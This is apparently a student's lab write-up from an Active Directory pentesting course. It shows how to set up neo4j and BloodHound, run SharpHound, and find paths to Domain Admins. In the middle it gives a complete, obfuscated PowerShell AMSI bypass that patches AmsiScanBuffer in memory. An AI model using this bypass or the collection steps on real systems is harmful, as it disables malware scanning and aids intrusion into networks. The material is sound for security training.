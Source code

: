 # 🐩 BloodHound, Identify Paths

I start by unziping the file C:\AD\Tools\neo4j-community-4.1.1- windows.zip

then i started the neo4j server like this:

```
.\neo4j.bat install-service
.\neo4j.bat start
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I get on this page with simple password neo4j:neo4j

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now i launch bloodhound via the following path (C:\AD\Tools\BloodHound-win32-x64\BloodHound-win32-x64) and enter the credentials that i set&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I then open my terminal and using invisishell and do the following

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
cd C:\AD\Tools\BloodHound-master\BloodHound-master\Collectors
```

Then i'm going to copy and paste this code snip in my terminal to bypass .NET AMSI before running SharpHound.ps1:

<pre><code><strong>$ZQCUW = @"
</strong>using System;
using System.Runtime.InteropServices;
public class ZQCUW {
 [DllImport("kernel32")]
 public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
 [DllImport("kernel32")]
 public static extern IntPtr LoadLibrary(string name);
 [DllImport("kernel32")]
 public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ =
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#x26;#97;&#x26;#109;&#x26;#115;&#x26;#105;&#x26;#46;&#x26;#100;&#x26;#108;&#x26;#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ,
"$([systeM.neT.webUtility]::HtMldECoDE('&#x26;#65;&#x26;#109;&#x26;#115;&#x26;#105;&#x26;#83;&#x26;#99;&#x26;#97;&#x26;#110;&#x26;#66;&#x26;#117;&#x26;#102;&#x26;#102;&#x26;#101;&#x26;#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
</code></pre>

Then we can simply run sharphound

```
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can upload the JSON files to get a visual render with the GUI.&#x20;

I can look for myself:

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

In Node Info, scroll down to 'LOCAL ADMIN RIGHTS' and expand 'Derivative Local Admin Rights' to find if student613 has derivate local admin rights on any machine!

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Theres an issue with GUI so this screenshot is from course content</p></figcaption></figure>

To complete the task we go on the Web UI of bloodhound provided by the course, login with the creds and follow with this methodology:

n the Web UI, click on Cypher -> Click on the Folder Icon -> Pre-Built Searches -> Active Directory -> (Scroll down) -> Shortest paths to Domain Admins

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>


